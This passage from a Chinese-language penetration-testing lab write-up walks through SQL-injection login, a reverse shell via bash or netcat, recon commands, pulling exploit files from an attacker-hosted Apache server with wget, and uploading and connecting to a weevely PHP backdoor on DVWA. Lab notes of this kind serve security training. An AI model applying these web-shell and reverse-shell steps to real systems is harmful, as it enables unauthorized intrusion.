 2. <利用弱點>登入
使用SQL Injection去登入

3. 使用受害者電腦連回攻擊者電腦
可使用下方這兩個去
- bash
- netcat

4. <資料蒐集>蒐集受害者電腦資訊
```
whoami
uname-a
lsb_release -a
```
![](https://i.imgur.com/W7DQDcI.png)

5. <弱點掃描>使用exploitsdb查詢漏洞
    ![](https://i.imgur.com/IajKmAT.png)

    ![](https://i.imgur.com/BFOaibq.png)


6. 在本地電腦開啟apache服務
    ![](https://i.imgur.com/6Cimn6A.png)
    開啟畫面如下
    ![](https://i.imgur.com/TZk5bR6.png)
    將需要的檔案放進apache資料夾中，使得之後受害電腦可以下載apache中的資料
    ![](https://i.imgur.com/AO8UQ2n.png)
    ![](https://i.imgur.com/Pe9lYUr.png)

7. <利用漏洞>在受害者電腦中下載漏洞檔案
    使用pwd確認位址指向tmp
    (由於權限不足因此需要找一個當前權限可以讀寫的位址)
    使用wget下載本機開啟的apache
    ![](https://i.imgur.com/RdeYP6B.png)
    ![](https://i.imgur.com/wVEsi1U.png)
    確認權限
    ![](https://i.imgur.com/oc9Q7jV.png)



### File Upload
使用weevely生成backdoor.php
![](https://i.imgur.com/perGeXy.png)
將檔案上傳回dvwa的網站
![](https://i.imgur.com/uZlHxZq.png)
使用weevely連到該上傳路徑
```
weevely http://IP/dvwa/hackable/uploads/backdoor.php pwd(密碼)
```
![](https://i.imgur.com/PkDJBTn.png)
查看開主機狀態
![](https://i.imgur.com/L9KupbP.png)

